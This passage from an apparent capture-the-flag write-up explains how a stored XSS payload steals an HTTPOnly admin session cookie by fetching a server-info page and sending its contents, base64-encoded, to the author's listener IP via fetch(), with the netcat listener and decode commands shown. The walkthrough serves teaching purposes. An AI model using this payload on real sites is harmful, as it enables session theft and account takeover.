 ![](/assets/blog/Robots/payload.png)

Although this XSS allows us to send requests from the admin user, we can't retrieve the cookie of the admin account because it's HTTPOnly, which means we can't retrieve it via JavaScript.

![](/assets/blog/Robots/cookie.png)


To overcome this you can use the Server info page which is accessible if your logged in, the `php_info()` function displays the cookie in its output.

![](/assets/blog/Robots/cookie2.png)

I build the following XSS payload to retrive the cookie and send it in base64 to my machine. With the payload I registered a new user. I then waited to connect to my listener `nc -lvnp 9002 > admin_base64`.

```html
<script>fetch('/harm/to/self/server_info.php').then(response => {return response.text();}).then(data => {fetch("http://10.14.78.229:9002/"+btoa(data));})</script>
```

After I recieved the payload I removed the HTTP request headers from the `admin_base64` file and decoded the `base64` string. And copied the cookie.

```terminal
cat admin_base64| base64 -d | grep PHPSESSID
```

![](/assets/blog/Robots/cookie3.png)
